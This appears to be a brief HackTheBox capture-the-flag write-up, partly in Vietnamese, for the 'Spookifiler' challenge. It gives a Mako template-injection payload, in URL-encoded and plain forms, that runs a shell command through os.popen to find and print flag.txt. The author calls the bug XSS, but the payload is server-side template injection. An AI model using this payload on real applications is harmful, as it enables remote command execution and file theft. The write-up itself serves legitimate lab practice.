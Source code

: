 # HackTheBox
Clearrrrrr

## **Flag Command**

![image](https://github.com/user-attachments/assets/b2be85b8-d16f-4386-96a0-5ea0247667aa)


## **Spookifiler**

  Bài nhập ta thấy web in ra thông tin mà người dùng nhập vào, ý tưởng XSS

![image](https://github.com/user-attachments/assets/f745f97f-2d46-43df-b118-51cb769474a3)

Vậy là XSS hoạt động, ta tiếp tục injection: 
>${self.module.cache.util.os.popen(%27find%20/%20-type%20f%20-name%20%22flag.txt%22%20-exec%20cat%20{}%20\\;%27).read()}
>
>${self.module.cache.util.os.popen('find / -type f -name "flag.txt" -exec cat {} \\;').read()}


![image](https://github.com/user-attachments/assets/4a4bf63a-4b92-48f8-a624-43b6b9702e9b)

